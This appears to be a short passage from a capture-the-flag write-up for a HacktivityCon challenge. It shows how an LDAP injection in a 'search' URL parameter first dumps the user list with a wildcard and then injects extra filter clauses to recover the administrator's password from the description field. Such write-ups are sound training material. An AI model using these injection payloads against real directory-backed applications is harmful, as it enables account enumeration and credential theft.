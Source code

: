 http://jh2i.com:50019/?search=*

Returns of users

```
Administrator User	administrator@hacktivitycon.local
Congon4tor	congon4tor@hacktivitycon.local
George Ward	george.ward@hacktivitycon.local
...
```

http://jh2i.com:50019/?search=*)(mail=administrator@hacktivitycon.local)(name=administrator)(description=very_secure_hacktivity_pass

Sign-in and get the flag 